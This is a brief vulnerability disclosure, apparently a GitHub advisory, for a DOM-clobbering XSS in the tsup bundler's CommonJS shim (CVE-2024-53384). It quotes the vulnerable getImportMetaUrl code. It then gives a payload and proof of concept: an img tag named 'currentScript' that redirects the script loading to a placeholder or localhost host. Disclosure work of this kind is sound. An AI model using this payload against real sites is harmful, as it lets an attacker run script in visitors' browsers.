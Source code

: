 ## tsup

### Meta

+ Library: tsup
+ Stars: 8.9K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: CVE-2024-53384
+ Version: v8.3.4
+ Status: Reported
+ Security Policy: Requested
+ Foundby: TheHulk

### Library

https://github.com/egoist/tsup

### Vulnerable Code Snippet

```javascript
// node_modules/tsup/assets/cjs_shims.js
var getImportMetaUrl = () => typeof document === "undefined" ? new URL(`file:${__filename}`).href : document.currentScript && document.currentScript.src || new URL("main.js", document.baseURI).href;
var importMetaUrl = /* @__PURE__ */ getImportMetaUrl();
```

## PoC

as an example, bundle the js below.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
``` -->

```html
<!--Library-->
<script src="dist/index.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999">
<!--Payload-->
```

